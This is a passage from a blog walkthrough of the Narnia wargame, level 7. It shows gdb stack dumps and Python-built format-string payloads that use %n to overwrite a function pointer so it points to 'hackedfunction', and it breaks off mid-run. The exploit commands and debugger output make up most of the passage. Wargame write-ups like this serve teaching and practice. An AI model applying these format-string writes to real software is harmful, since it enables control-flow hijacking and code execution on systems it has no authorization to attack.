 before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0:	0xffffd610	0x00000080	0xffffd8a2	0x08048238
0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x080486e0
0xffffd610:	0x61616161	0x62626262	0x38343038	0x66383332
0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
0xffffd630:	0x38343038	0x36306536	0x36313631	0x36313631
0xffffd640:	0x36323632	0x00323632	0x00000000	0x00000000
0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
{{< / highlight >}}

So at `0xffffd60c` is the address of `goodfunction`. We need to overwrite that
to point to `0x8048706`, our `hackedfunction`. So as before in [level 05](http://unlogic.co.uk/2015/04/10/solving-narnia-part-2/#level-05)
we use `%n` to try and overwrite this value.

{{< highlight console >}}
(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*6 + '%n'")

Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*6 + '%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0:	0xffffd610	0x00000080	0xffffd8a2	0x08048238
0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x0000002f
0xffffd610:	0x61616161	0xffffd60c	0x38343038	0x66383332
0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
0xffffd630:	0x38343038	0x36306536	0x36313631	0x00313631
0xffffd640:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb)
{{< / highlight >}}
 
The value of *2f* at `0xffffd60c` shows us that our overwrite was successful
and we wrote the value of *47*. We need to write `0x8048706` which is *134514438* in decimal.
So let's add our `%d` in and remember to adjust the number of `%x`s too, so we can see
how much padding we need

{{< highlight console >}}
(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%d%n'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

